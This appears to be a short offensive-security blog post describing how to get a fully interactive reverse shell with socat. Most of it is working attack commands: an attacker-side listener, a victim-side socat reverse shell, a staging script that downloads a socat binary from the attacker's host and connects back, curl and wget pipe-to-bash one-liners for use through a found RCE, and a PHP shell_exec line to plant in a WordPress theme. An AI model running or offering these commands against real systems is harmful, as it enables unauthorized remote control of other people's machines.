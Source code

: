 ```yaml
---
title: Full TTY Shell with Socat
layout: post
author: hyprcub
tags: trick
---
```


# References

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Statically-linked binaries of various tools](https://github.com/andrew-d/static-binaries)

#  Introduction

This is a quick trick to get a full TTY reverse shell using [socat](http://www.dest-unreach.org/socat/) which is really an awesome tool. There's nothing new, it has already been described on [ropno's blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#tldr-cheatsheet) to some extent. However, I wanted to put it here as a reference, at least for the way I use it most of the time.

# Principles

On the attacker's machine (listening mode):
```bash
sudo socat file:`tty`,raw,echo=0 tcp-listen:443
```
On the victim's machine (sending mode):
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:LHOST:443
```
where `LHOST` has to be replaced with attacker's IP.

# When you have some kind of RCE

1. Start your listener as above.
2. Serve a script file called `socat.sh` via HTTP, containing:
    ```bash
    #!/bin/sh

    LHOST=10.11.31.164 # change this
    LPORT=443 # change this
    DIR=/tmp # maybe also this

    # choose between curl or wget
    curl -q http://$LHOST/socat -o $DIR/socat
    #wget -q http://$LHOST/socat -O $DIR/socat
    chmod +x $DIR/socat
    $DIR/socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:$LHOST:$LPORT
    ```
3. You also have to serve a static version of `socat` you'll find [there](https://github.com/andrew-d/static-binaries/tree/master/binaries).
4. Then, on the victim's machine, via the RCE you discovered:
    ```bash
    curl -q http://LHOST/socat.sh | bash
    ```
    or
    ```bash
    wget -q http://LHOST/socat.sh -O - | bash
    ```
    
In a Wordpress theme PHP file, it could looks like this:
```php
shell_exec("curl -q http://LHOST/socat.sh | bash");
```

